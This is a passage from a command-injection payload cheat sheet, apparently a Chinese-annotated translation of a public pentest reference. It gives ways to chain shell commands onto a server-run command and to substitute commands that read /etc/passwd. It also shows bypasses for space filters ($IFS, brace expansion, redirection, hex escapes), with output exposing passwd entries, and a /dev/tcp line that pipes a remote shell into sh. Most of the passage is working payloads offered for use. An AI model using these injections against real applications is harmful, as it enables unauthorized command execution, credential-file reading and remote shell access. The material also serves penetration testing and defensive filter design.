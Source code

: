 ### Chaining commands - 链接命令

```bash
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # 第一个命令执行失败时，ls命令才能执行成功
```

也可以按换行顺序执行命令：

```bash
original_cmd_by_server
ls
```

### Inside a command - 在命令中

```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses - 绕过

### Bypass without space - 空格绕过

仅对Linux生效

```bash
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab:~$ sh</dev/tcp/127.0.0.1/4242
```

不带空格、$ 或 { } 的命令执行 - Linux（仅限 Bash）

